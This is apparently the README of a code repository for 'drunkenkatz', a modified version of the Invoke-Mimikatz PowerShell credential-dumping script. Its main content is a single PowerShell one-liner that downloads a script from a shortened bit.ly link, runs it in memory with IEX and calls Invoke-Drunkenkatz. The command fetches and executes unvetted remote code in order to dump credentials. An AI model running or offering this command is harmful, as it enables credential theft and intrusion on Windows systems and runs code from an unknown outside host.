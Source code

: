 # drunkenkatz
a 'modified' version of the Invoke-Mimikatz.ps1 powershell script

powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2mwWXzS'); Invoke-Drunkenkatz -RandomVar111"
